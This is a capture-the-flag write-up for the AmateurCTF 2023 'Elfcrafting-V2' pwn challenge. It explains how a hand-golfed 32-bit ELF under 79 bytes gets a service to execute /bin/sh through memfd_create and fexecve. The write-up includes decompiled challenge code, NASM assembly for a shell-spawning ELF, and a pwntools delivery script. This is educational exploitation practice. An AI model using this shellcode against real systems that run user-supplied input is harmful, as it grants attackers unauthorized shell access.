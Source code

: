 ```yaml
---
title: AmateurCTF '23 - Pwn - Elfcrafting-V2
date: '2023-07-18'
tags: ['ctf', 'pwn', 'amateurctf', 'amateurctf23', 'writeup', 'elf', 'elfcrafting-v2', 'memfd_create', 'fexecve', 'shellcode', 'asm']
draft: false
summary: Crafting a custom ELF binary in assembly to execute /bin/sh and inject that inside the file descriptor using memfd_create and fexecve.
---
```


## Challenge Description

The smallest possible 64 bit ELF is 80 bytes. Can you golf it down to 79 bytes?

Author: unvariant

Connection info: `nc amt.rs 31179`

## Solution

We were provided with a binary and a libc file. Let's first analyze the binary using `checksec` and `file`:

![chal](/static/writeups/amateurctf2023/pwn/ec2-0.png)

Now, let's analyze this binary in ghidra and find all the functions

![chal](/static/writeups/amateurctf2023/pwn/ec1-1.png)

Similar to the previous binary, we have the same function. Let's analyze this main

```c:main
int main(int param_1,char **param_2,char **param_3) {
  int iVar1;
  int iVar2;
  ulong uVar3;
  long in_FS_OFFSET;
  undefined4 elf;
  undefined buffer [88];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("I\'m sure you all enjoy doing shellcode golf problems.");
  puts("But have you ever tried ELF golfing?");
  puts("Have fun!");
  elf = 0x464c457f;
  iVar1 = memfd_create("golf",0);
  if (iVar1 < 0) {
    perror("failed to execute fd = memfd_create(\"golf\", 0)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar3 = read(0,buffer,79);
  if ((int)uVar3 < 0) {
    perror("failed to execute ok = read(0, buffer, 79)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("read %d bytes from stdin\n",uVar3 & 0xffffffff);
  iVar2 = memcmp(&elf,buffer,4);
  if (iVar2 != 0) {
    puts("not an ELF file :/");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  uVar3 = write(iVar1,buffer,(long)(int)uVar3);
  if ((int)uVar3 < 0) {
    perror("failed to execute ok = write(fd, buffer, ok)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("wrote %d bytes to file\n",uVar3 & 0xffffffff);
  iVar1 = fexecve(iVar1,param_2,param_3);
  if (iVar1 < 0) {
    perror("failed to execute fexecve(fd, argv, envp)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

Well, similar to the [previous](/writeups/amateurctf2023/pwn/elf-crafting-v1) challenge, we can see that the binary is reading 79 bytes from stdin and then writing it to a file descriptor. After that, it's executing the file descriptor using `fexecve`. But, the only new thing is that the code is checking that the first `4 bytes` must be `0x464c457f` which is the magic number for ELF binaries. So, we can't just send a shellcode and execute it. We have to send a valid ELF binary. Let's try to craft a valid ELF binary using assembly.

I did study about `binary-golfing` once. I'll add few [references](#references) at the end of this writeup. So, one of the most valuable resource is [MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny/) which has a lot of tiny binaries. I'll be using the `hello world` binary from there. The asm is:

```asm
BITS 32

		org	0x05430000

		db	0x7F, "ELF"
		dd	1
		dd	0
		dd	$$
		dw	2
		dw	3
		dd	_start
		dw	_start - $$
_start:		inc	ebx			; 1 = stdout file descriptor
		add	eax, strict dword 4	; 4 = write system call number
		mov	ecx, msg		; Point ecx at string
		mov	dl, 13			; Set edx to string length
		int	0x80			; eax = write(ebx, ecx, edx)
		and	eax, 0x10020		; al = 0 if no error occurred
		xchg	eax, ebx		; 1 = exit system call number
		int	0x80			; exit(ebx)
msg:		db	'hello, world', 10
```

We'll be compiling this binary using `nasm`

```bash
nasm -f bin -o hello hello.asm && chmod +x hello
```

But, there is a check, that the final binary *must be less than "79 bytes"*. Fortunately, this one was. Now, let's write a simple python pwntools script that will send this binary to the program/server

```python
from pwn import *

io = process('./chal')
io.recv()
with open('./hello', 'rb') as f:
	buf = f.read()
io.sendline(buf)
io.interactive()
```

![chal](/static/writeups/amateurctf2023/pwn/ec2-1.png)

Well, this worked. It printed out `hello world`. Now, all we need to do, is write an assembly code, that will either give us a shell, or a simple `cat flag.txt`. So, I fumbled around, tried different codes online, even the `echo` from [MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny), but it didn't work. Then, one of my [teammates](https://mikivirus0.github.io/), with the help of some online resources, crafted the following assembly code that spawns `/bin/sh`

```asm
 BITS 32
      org     0x00010000
      db      0x7F, "ELF"         
      dd      1                                    
      dd      0                                      
      dd      $$                           
      dw      2               
      dw      3                  
      dd      _start                 
      dd      _start                  
      dd      4                      
  _cont:
      mov     dl, 0xff         
      int     0x80  
      mov     ebx, eax
      mov     al, 3                  
      jmp _end                 
      dw      0x20                    
      dw      1                       
  _start:
      mov     al, 11                
      mov     ebx, string_start              
      int 0x80               
  _end:
    mov ecx, esp
    int 0x80
    xor ebx,ebx
    mov al, 4
    int 0x80
  string_start:
      db "/bin/sh"
  string_len equ $ - string_start
  filesize      equ     $ - $$
```

Compiling this binary, running it, and checking it's size

![chal](/static/writeups/amateurctf2023/pwn/ec2-2.png)

Well, the size is less than 79 bytes. So, running this against the remote server

![chal](/static/writeups/amateurctf2023/pwn/ec2-3.png)

Flag: `amateursCTF{d1d_i_f0rg3t_t0_p4tch_32b1t_b1naries_t00!!!}`

This challenge was pretty good and took me and my team quite a long time to solve than it actually should have. But, hey, we learned a lot of new things. So, that's a win-win situation.

## References

[Golf-Club](https://github.com/netspooky/golfclub/tree/master)

[Binary-Golfing](https://0xninja.fr/binary-golf/)

[MuppetLabs](https://www.muppetlabs.com/~breadbox/software/tiny)

[Analyzing-ELF-Binaries](https://binaryresearch.github.io/2019/09/17/Analyzing-ELF-Binaries-with-Malformed-Headers-Part-1-Emulating-Tiny-Programs.html)

[ELF-Binary-Mangaling](https://netspooky.medium.com/elf-binary-mangling-pt-2-golfin-7e5c82bb482c)
